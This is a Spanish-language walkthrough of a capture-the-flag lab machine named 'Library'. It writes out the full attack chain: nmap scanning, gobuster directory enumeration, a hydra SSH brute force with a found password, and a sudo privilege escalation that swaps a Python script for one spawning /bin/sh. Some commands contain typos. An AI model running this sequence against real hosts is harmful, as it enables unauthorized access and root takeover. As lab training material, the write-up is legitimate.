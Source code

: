 Maquina: Library

Autor: El Pinguino de Mario

Dificultad: Facil

ping 172.17.0.2 -c 1

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap

nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2

La pagina web no muestra nada 

Usamos Gobuster para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

Gobuster ha encontrado un index.php

Tenemos una posible contraseña

Vamos hacer fuerza bruta con hydra al protocolo ssh pasandole un diccionario de usuarios

hydra -L /usr/sharewrodlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2

Encontramos el usuario Carlos vamos a ingresar al SSH

ssh carlos"172.17.0.2

ejecutamos el comando sudo -l para ver si tenemos premisos especiales

Vamos al directorio y listamos para ver los permisos

cd /opt
ls -la

Lo que podemos hacer es eliminar el archivo y crear otro con el mismo nombre pero que un su interior tenga lo siguiente

nano scrip.py

import os

os.sysem("/bin/sh")

ejecutamos la script con sudo

sudo /usr/bin/python3 /opt/script.py

whoami

